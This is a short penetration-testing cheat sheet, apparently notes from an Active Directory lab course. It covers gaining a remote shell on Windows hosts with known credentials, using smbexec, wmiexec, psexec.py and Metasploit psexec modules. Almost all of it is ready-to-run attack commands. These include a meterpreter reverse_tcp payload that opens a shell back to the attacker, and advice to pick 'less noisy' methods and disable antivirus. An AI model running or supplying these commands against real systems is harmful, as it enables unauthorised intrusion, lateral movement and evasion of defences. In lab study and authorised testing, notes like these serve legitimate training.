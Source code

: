 # Gaining Shell Access with Credentials

## **Using smbexec \(START WITH THIS, LESS NOISY, DISABLE ANTI VIRUS\)**

* run smbexec

```bash
smbexec.py marvel.local/fcastle:'P@$$w0rd!'@<victim ip>
```

## Using wmiexec \(START WITH THIS, LESS NOISY, DISABLE ANTI VIRUS\)

* run wmiexec

```bash
wmiexec.py marvel.local/fcastle:'P@$$w0rd!'@<victim ip>
```

## Using Metasploit psexec

* launch psexec

```bash
use exploit/windows/smb/psexec
```

* fill out credentials

```bash
options
set rhosts <ip>
set smbdomain marvel.local
set smbpass fcastle
set smbpass P@$$w0rd!
set lhost eth0
#Set Payload
set payload windows/x64/meterpreter/reverse_tcp
set target <#> (if it does not pop a shell)
```

## Using Metasploit Powershell

* launch psexec\_psh

```bash
use exploit/windows/smb/psexec_psh
```

## Using [psexec.py](http://psexec.py/)

* Run psexec

```bash
psexec.py marvel.local/fcastle:'P@$$w0rd!@'<victim ip>
```

